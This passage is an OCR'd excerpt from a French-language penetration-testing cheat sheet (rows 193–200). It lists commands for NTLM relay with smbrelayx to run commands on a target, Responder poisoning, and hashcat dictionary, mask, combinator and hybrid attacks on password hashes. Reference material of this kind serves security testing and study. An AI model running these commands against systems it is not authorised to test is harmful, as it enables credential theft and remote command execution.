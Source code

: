 | 193 | smbrelayx.py -h 192.168.1.1 -c "whoami" | Relayer les hachages NTLM pour exécuter des commandes sur la cible. |
| 194 | responder -I eth0 -w | Exécuter Responder en mode d'analyse complète. |
| 195 | hashcat -a 0 -m 0 /path/to/hashfile /path/to/wordlist | Crackage de mot de passe haute performance. |
| 196 | hashcat -a 3 -m 0 /path/to/hashfile ?a?a?a?a?a?a | Attaque par masque avec force brute pour les mots de passe de longueur 6. |
| 197 | hashcat -a 3 -m 1000 /path/to/hashfile ?l?l?l?l | Attaque par masque avec lettres minuscules pour les hachages NTLM. |
| 198 | hashcat -a 0 -m 1800 /path/to/hashfile /path/to/wordlist | Attaque par dictionnaire sur les hachages SHA-512. |
| 199 | hashcat -a 1 -m 0 /path/to/hashfile /path/to/wordlist /path/to/rules | Attaque combinatoire utilisant deux listes de mots. |
| 200 | hashcat -a 6 -m 0 /path/to/hashfile /path/to/wordlist ?d?d | Attaque hybride avec dictionnaire et suffixe à 2 chiffres. |